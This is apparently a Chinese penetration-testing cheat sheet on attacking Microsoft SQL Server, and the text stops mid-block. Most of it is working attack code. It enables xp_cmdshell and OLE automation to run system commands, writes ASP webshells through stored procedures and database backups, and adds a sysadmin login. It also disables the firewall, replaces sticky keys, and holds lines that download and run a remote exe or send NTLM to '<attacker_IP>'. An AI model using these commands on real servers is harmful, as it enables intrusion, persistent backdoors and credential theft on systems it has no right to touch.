# MSSQL

> fofa : app="Microsoft-SQL-Server"

**注入**
- [MSSQL数据库注入笔记](../../Web安全/Web_Generic/SQLi.md#MSSQL)

**环境搭建**
- [MSSQL搭建](../../../../Integrated/Windows/实验/MSSQL搭建.md)

**教程**
- [aleenzz/MSSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)

**相关文章**
- [A look at some MS-SQL attacks (overview)](https://malwaremusings.com/2013/04/10/a-look-at-some-ms-sql-attacks-overview/)
- [详述MSSQL服务在渗透测试中的利用（上篇）](https://www.cnblogs.com/ichunqiu/p/7249474.html)
- [通过Mssql提权的几种姿势](https://www.cnblogs.com/N0r4h/p/12889944.html)
- [How to Exploit SQL Server Using OLE Automation](https://www.imperva.com/blog/how-to-exploit-sql-server-using-ole-automation/)
- [How to Exploit SQL Server Using Registry Keys](https://www.imperva.com/blog/how-to-exploit-sql-server-using-registry-keys/)
- [A Deep Dive into Database Attacks [Part II]: Delivery and Execution of Malicious Executables through SQL commands (SQL Server)](https://www.imperva.com/blog/deep-dive-database-attacks-part-ii-delivery-execution-malicious-executables-sql-commands-sql-server/)
- [【提权】MSSQL提权之sp_oacreate](https://www.jianshu.com/p/e79d2a42338b)
- [MSSQL提权之xp_cmdshell、SP_OACreate、沙盒提权](https://www.cnblogs.com/bonelee/p/15864534.html)
- [MSSQL[CLR]不落地执行](https://www.cnblogs.com/websecyw/p/11888947.html)
- [MSSQL 利用 CLR 技术执行系统命令](https://cloud.tencent.com/developer/article/1736431)
- [MSSQL使用CLR程序集来执行命令](https://xz.aliyun.com/t/6682)
- [Mssql数据库命令执行总结](https://xz.aliyun.com/t/7534)
- [SQL Server从0到1](https://mp.weixin.qq.com/s/N2siXJgmPAZ7CSIQ3FCF0w)
- [从0开始学习Microsoft SQL Server数据库攻防](https://xz.aliyun.com/t/10955)
- [SQL Server 用扩展存储过程进行文件操作](https://www.cnblogs.com/ljhdo/archive/2018/02/23/4996060.html)
- [MSSQL Lateral Movement](https://research.nccgroup.com/2021/01/21/mssql-lateral-movement/)
- [mssql 提权总结](https://tttang.com/archive/1545/)

**相关案例**
- [MSSQL绕过360提权实战案例](https://mp.weixin.qq.com/s/Ch342vyszfhUWSlkJEzMOA)
- [记一次利用mssql上线](https://xz.aliyun.com/t/9265)

**相关工具**
- [0x727/SqlKnife_0x727](https://github.com/0x727/SqlKnife_0x727) - 适合在命令行中使用的轻巧的 SQL Server 数据库安全检测工具
    ```
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --xpcmd --fix            # 启用xp_cmdshell
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --xpcmd -c whoami        # 使用xp_cmdshell执行命令
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --xpcmd --remove         # 禁用xp_cmdshell
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --oacreate --fix         # 恢复Ole Automation Procedures
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --oacreate -c calc.exe   # Ole Automation Procedures执行程序
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --openrdp                # 开启RDP
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --disfw	                # 关闭防火墙
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --shift	                # 劫持shift键
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --dbup --fix --3	        # 安装.net3.5的甜土豆提权存储过程，如果安装.net4.0的话就是--4
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --dbup -c whoami	        # 利用甜土豆执行命令
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --dbup2 --3 --fix        # 安装.net3.5的EfsPotato提权存储过程，如果安装.net4.0的话就是--4
    SqlKnife.exe -H 192.168.1.1 -P 1433 -u sa -p admin@123 --dbup2 -c whoami        # 使用EfsPotato执行命令
    ```
- [mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit](https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit) - WarSQLKit是一个针对Mssql CLR进行利用的渗透工具.
- [NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) - A PowerShell Toolkit for Attacking SQL Server
- [quentinhardy/msdat](https://github.com/quentinhardy/msdat) - Microsoft SQL Database Attacking Tool
- [uknowsec/SharpSQLTools](https://github.com/uknowsec/SharpSQLTools) - 可上传下载文件，xp_cmdshell与sp_oacreate执行命令回显和clr加载程序集执行相应操作。
- [evi1ox/MSSQL_BackDoor](https://github.com/evi1ox/MSSQL_BackDoor)

---

## 中间人攻击

**相关文章**
- [在不需要知道密码的情况下 Hacking MSSQL](https://tttang.com/archive/811/)
    - https://pastebin.com/Nge9rx7g

## 账号操作

**添加用户**
```sql
-- 创建一个账号 f0x 密码为 Abcd1234!!!
CREATE LOGIN f0x WITH PASSWORD='Abcd1234!!!';
ALTER SERVER ROLE sysadmin ADD MEMBER f0x;
sp_addsrvrolemember 'f0x', 'sysadmin'
```

**查看用户**
```
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```

## 常见存储过程

**xp_dirtree**

xp_dirtree 用于显示当前目录的子目录，该存储过程有三个参数：
- directory：第一个参数是要查询的目录；
- depth ：第二个参数是要显示的子目录的深度，默认值是 0，表示显示所有的子目录；
- file ：第三个参数是 bool 类型，指定是否显示子目录中的文件（file），默认值是 0，表示不显示任何文件，只显示子目录（directory）；

```sql
-- 只列 c:\ 文件夹
exec xp_dirtree 'c:',1
-- 列 c:\ 文件夹加文件
exec xp_dirtree 'c:',1,1
-- 列出所有 c:\ 文件和目录,子目录,内容会很多,慎用
exec xp_dirtree 'c:'
```






xp_dirtree 还可以用来触发 NTLM 请求
```sql
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
```

**xp_subdirs**

xp_subdirs 用于得到给定的文件夹内的文件夹列表

```sql
-- 列出 C:\\ 目录
exec xp_subdirs "C:\\"
```



**xp_fixeddrives**

xp_fixeddrives 用于查看磁盘驱动器剩余（free）的空间

```sql
-- 查看磁盘驱动的空闲空间
EXEC xp_fixeddrives
```



**xp_availablemedia**

xp_availablemedia 用于获得当前所有驱动器

```sql
-- 列出磁盘
EXEC xp_availablemedia
```


**xp_fileexist**

用于判断文件是否存在的存储过程，参数是文件（file）的路径或目录的路径

```sql
-- 判断文件 D:\test.txt 是否存在
exec master.sys.xp_fileexist 'D:\test.txt'
```

**xp_create_subdir**

用于创建子目录的存储过程，参数是子目录的路径

```sql
-- 创建子目录 D:\test
exec master.sys.xp_create_subdir 'D:\test'
```

**xp_delete_file**

可用于删除文件的存储过程，但该存储过程不会删除任意类型的文件，系统限制它只能删除特定类型（备份文件和报表文件）的文件。

```sql
-- 删除文件
declare @Date datetime = dateadd(day,-30,getdate())
exec master.sys.xp_delete_file 0,'D:\test\','bak',@Date,0

-- 第一个参数是文件类型（File Type），有效值是0和1，0是指备份文件，1是指报表文件；
-- 第二个参数是目录路径（Folder Path）， 目录中的文件会被删除，目录路径必须以“\”结尾；
-- 第三个参数是文件的扩展名（File Extension），常用的扩展名是'BAK' 或'TRN'；
-- 第四个参数是Date，早于该日期创建的文件将会被删除；
-- 第五个参数是子目录（Subfolder），bool类型，0是指忽略子目录，1是指将会删除子目录中的文件；
```

**xp_regenumkeys**

xp_regenumkeys 可以查看指定的注册表

```sql
-- 枚举可用的注册表键值
exec xp_regenumkeys 'HKEY_CURRENT_USER','Control Panel\International'
```



**xp_regdeletekey**

xp_regdeletekey 可以删除指定的注册表值

```sql
-- 删除指定的注册表值
EXEC xp_regdeletekey 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe';
```

## 存储过程写webshell

利用条件
- 拥有DBA权限
- 知道的网站绝对路径

```sql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 利用存储过程写入一句话,注意路径
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'C:\www\test.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'<%execute(request("a"))%>'
```


## 差异备份写webshell

**描述**

在 sql server 里 dbo 和 sa 权限都有备份数据库权限，我们可以把数据库备份成 asp 文件，获得 webshell

利用条件
- 需要知道绝对路径，路径可写

```sql
-- 生成备份文件,注意库名和路径
backup database test to disk = 'c:\www\bak.bak';

-- 创建表：
create table [dbo].[test] ([cmd] [image]);

-- 插入一句话：<%execute(request("a"))%>
insert into test(cmd)  values(0x3C25657865637574652872657175657374282261222929253E)

-- 再次备份,注意路径
backup database test to disk='C:\www\shell.asp' WITH DIFFERENTIAL,FORMAT;
```

因为权限的问题，最好不要备份到盘符根目录，如果这种方式失败，大概率是备份的目录没有写权限

当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用定义局部变量来执行。

## 日志备份写webshell

优势：
- 重复性好，多次备份的成功率高
- 相对于差异备份而言，shell的体积较小

利用条件：
- 拥有DBA权限
- 知道网站绝对路径，并且可写
- 站库不分离
- 数据库必须被备份过一次

```sql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 利用存储过程写入一句话,注意库名和路径
alter database 库名 set RECOVERY FULL
create table cmd (a image)
backup log 库名 to disk = 'c:\www' with init
insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E)
backup log 库名 to disk = 'c:\www\2.asp'
```

## sp_addextendedproc

sp_addextendedproc 可以利用于恢复组件
```sql
EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumgroups ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_loginconfig ,@dllname ='xplog70.dll'
EXEC sp_addextendedproc xp_enumerrorlogs ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_getfiledetails ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc Sp_OACreate ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OADestroy ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetErrorInfo ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAGetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAMethod ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OASetProperty ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc Sp_OAStop ,@dllname ='odsole70.dll'
EXEC sp_addextendedproc xp_regaddmultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletekey ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regdeletevalue ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regenumvalues ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regremovemultistring ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regwrite ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_dirtree ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_regread ,@dllname ='xpstar.dll'
EXEC sp_addextendedproc xp_fixeddrives ,@dllname ='xpstar.dll'
```

## xp_cmdshell

**描述**

xp_cmdshell 是 Sql Server 中的一个组件，我们可以用它来执行系统命令。

利用条件
- 拥有 DBA 权限, 在 2005 中 xp_cmdshell 的权限是 system，2008 中是 network。
- 依赖 xplog70.dll

```sql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 查看是否存在 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

-- 查看能否使用 xp_cmdshell，从MSSQL2005版本之后默认关闭
select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell'

-- 关闭 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;

-- 开启 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

-- 执行 xp_cmdshell
exec master..xp_cmdshell 'cmd /c whoami'

-- xp_cmdshell 调用cmd.exe用powershell 远程下载exe并执行
exec master..xp_cmdshell '"echo $client = New-Object System.Net.WebClient > %TEMP%\test.ps1 & echo $client.DownloadFile("http://example/test0.exe","%TEMP%\test.exe") >> %TEMP%\test.ps1 & powershell  -ExecutionPolicy Bypass  %temp%\test.ps1 & WMIC process call create "%TEMP%\test.exe""'
```



**无会显,也无法进行 dnslog 怎么办**

通过临时表查看命令执行的结果
```sql
CREATE TABLE tmpTable (tmp1 varchar(8000));
insert into tmpTable(tmp1) exec master..xp_cmdshell 'ipconfig'
select * from tmpTable
```


**常见报错**

- 标记message: 配置选项 ‘xp_cmdshell’ 不存在，也可能是高级选
    ```sql
    EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'user connections',1;RECONFIGURE;
    ```

**痕迹清理**

删除扩展存储过过程 xp_cmdshell
```sql
exec sp_dropextendedproc 'xp_cmdshell'
```

**如果 xp_cmdshell 被删除了怎么办**

如果 xp_cmdshell 被删除了，需要重新恢复或自己上传 xplog70.dll 进行恢复

以mssql2012为例，默认路径为
```
C:\Program Files\Microsoft SQL Server\MSSQL12.MSSQLSERVER\MSSQL\Binn\xplog70.dll
```

```sql
-- 判断存储扩展是否存在,返回结果为1就OK
Select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'

-- 恢复xp_cmdshell,返回结果为1就OK
Exec sp_addextendedproc 'xp_cmdshell','xplog70.dll';
select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell'

-- 否则上传xplog70.dll
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

**bypass**
```
‘; DECLARE @x AS VARCHAR(100)=’xp_cmdshell’; EXEC @x ‘ping xxx.burpcollaborator.net’ —
```

## sp_oacreate (Ole Automation Procedures)

利用条件
- 拥有DBA权限
- 依赖 odsole70.dll

```sql
-- 判断当前是否为DBA权限，为1则可以提权
select is_srvrolemember('sysadmin');

-- 判断SP_OACREATE状态,如果存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

-- 启用 sp_oacreate
exec sp_configure 'show advanced options',1;RECONFIGURE;
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;

-- 关闭 sp_oacreate
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;
```

**wscript.shell 组件执行命令**
```sql
declare @ffffffff0x int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```

```sql
declare @ffffffff0x int
exec sp_oacreate 'wscript.shell',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\www\\1.txt'
```



**利用 com 组件执行命令**
```sql
declare @ffffffff0x int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@ffffffff0x output
exec sp_oamethod @ffffffff0x,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```


**利用 com 组件写文件**
```sql
DECLARE @ObjectToken INT;
EXEC Sp_OACreate '{00000566-0000-0010-8000-00AA006D2EA4}',@ObjectToken OUTPUT;
EXEC Sp_OASetProperty @ObjectToken, 'Type', 1;
EXEC sp_oamethod @ObjectToken, 'Open';
EXEC sp_oamethod @ObjectToken, 'Write', NULL, 0x66666666666666663078;
EXEC sp_oamethod @ObjectToken, 'SaveToFile', NULL,'ffffffff0x.txt',2;
EXEC sp_oamethod @ObjectToken, 'Close';
EXEC sp_OADestroy @ObjectToken;
```



**filesystemobject COM 对象利用**

- https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/filesystemobject-object

filesystemobject”COM 对象允许我们复制文件、管理驱动器等等。
```sql
-- 利用 filesystemobject 写vbs脚本
declare @o int, @f int, @t int, @ret int,@a int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o,'createtextfile', @f out, 'c:\\www\\ffffffff0x.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL, 'hahahahahahhahahah'

-- 配合 wscript.shell 组件执行
DECLARE @s int EXEC sp_oacreate [wscript.shell], @s out
EXEC sp_oamethod @s,[run],NULL,[c:\\www\\ffffffff0x.vbs]
```




```sql
-- 复制具有不同名称和位置的 calc.exe 可执行文件
declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\\windows\\system32\calc.exe','c:\\windows\\system32\calc_copy.exe';
```



```sql
-- 移动文件
declare @ffffffff0x int
exec sp_oacreate 'scripting.filesystemobject',@ffffffff0x out
exec sp_oamethod @ffffffff0x,'movefile',null,'c:\\www\\1.txt','c:\\www\\3.txt'
```

```sql
-- 删除文件
declare @result int
declare @ffffffff0x int
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out
exec sp_oamethod @ffffffff0x,'deletefile',null,'c:\\www\\1.txt'
exec sp_oadestroy @ffffffff0x
```

```sql
-- 替换粘滞键
declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
exec sp_oamethod @ffffffff0x,'copyfile',null,'c:\\windows\\system32\calc.exe','c:\\windows\\system32\sethc.exe';

declare @ffffffff0x int;
exec sp_oacreate 'scripting.filesystemobject', @ffffffff0x out;
